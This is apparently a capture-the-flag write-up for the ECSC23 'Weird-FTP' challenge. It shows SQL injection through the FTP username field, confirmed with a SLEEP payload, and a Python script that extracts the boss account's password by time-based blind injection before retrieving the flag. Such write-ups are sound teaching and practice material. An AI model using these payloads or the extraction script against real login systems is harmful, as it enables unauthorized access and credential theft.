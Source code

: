 # [web - Weird-FTP](https://hack.cert.pl/challenge/weird-ftp)

I use the auditor account in order to get some information:
```bash
curl "ftp://auditor:8555998981517280@ftp.ecsc23.hack.cert.pl:5005/"

# -rw-r--r--   1 root     root          125 Jul 14 11:31 AUDIT_PLAN.TXT
# -rw-r--r--   1 root     root          806 Jul 14 11:31 dbschema.sql
```
```bash
curl "ftp://auditor:8555998981517280@ftp.ecsc23.hack.cert.pl:5005/dbschema.sql"
```
```sql
#
# TABLE STRUCTURE FOR: employees
#

DROP TABLE IF EXISTS `employees`;

CREATE TABLE `employees` (
  `id` int(9) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(100) NOT NULL,
  `password` varchar(255) NOT NULL,
  `home_dir` varchar(255) NOT NULL,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=utf8 COLLATE=utf8_general_ci;

# All passwords are 16 digits, letters are not used because they could not be entered in case we want to use pin-pads for login
# Passwords provided below are examples.
INSERT INTO `employees` (`id`, `username`, `password`, `home_dir`) VALUES (1, 'boss', '0000000000000000', '/home/boss');
INSERT INTO `employees` (`id`, `username`, `password`, `home_dir`) VALUES (2, 'auditor', '0000000000000000', '/home/auditor');
```
I find out that there is an another account with username `boss`.

I check if the username is injectable using `SLEEP` function:
```bash
curl "ftp://auditor'%20UNION%20SELECT%20SLEEP(2)%3B%20--%20:8555998981517280@ftp.ecsc23.hack.cert.pl:5005/" | time

#   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
#                                  Dload  Upload   Total   Spent    Left  Speed
#   0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:--     0
# curl: (56) response reading failed (errno: 36)
```
Request took exactly 2 seconds so it is. Based on this I created a Python script that uses blind sql injection technique in order to get the password to the boss' account:
```python
import subprocess
import urllib.parse
from time import time


password = ''
guess = 0
i = 1

while True:
    sql = f"' AND 1=IF(SUBSTRING(password,{i},1)='{guess}',SLEEP(1),'test'); -- "
    sql = urllib.parse.quote(sql)

    st = time()
    subprocess.run(
        ['curl', f'ftp://boss{sql}:0000000000000000@ftp.ecsc23.hack.cert.pl:5005/'], capture_output=True)
    diff = time() - st

    if diff > 1:
        password += str(guess)
        print(password)
        i += 1
        guess = 0
    else:
        guess += 1

    if guess > 9:
        print('password:', password)
        break

# output:    

# 7
# 78
# 789
# 7897
# 78978
# 789781
# 7897812
# 78978129
# 789781291
# 7897812918
# 78978129180
# 789781291802
# 7897812918028
# 78978129180281
# 789781291802819
# 7897812918028196
# password: 7897812918028196
```
Now having the password I'm getting the flag:
```bash
curl "ftp://boss:7897812918028196@ftp.ecsc23.hack.cert.pl:5005/"
# -rw-r--r--   1 root     root           41 Jul 14 11:31 flag.txt
```

```bash
curl "ftp://boss:7897812918028196@ftp.ecsc23.hack.cert.pl:5005/flag.txt"
```

### Flag
```
ecsc23{863b2b472ee544109a7b066256df0ea5}
```
